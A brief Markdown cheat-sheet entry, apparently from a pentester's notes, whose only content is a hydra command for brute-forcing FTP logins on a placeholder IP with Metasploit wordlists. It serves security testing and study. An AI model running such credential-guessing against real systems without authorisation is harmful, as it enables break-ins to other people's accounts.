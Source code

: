 ----------------
- tags: #linux #ftp #bruteforce
------------

## Fuerza bruta con hydra

	hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/unix_passwords.txt x.x.x.x -t 4 ftp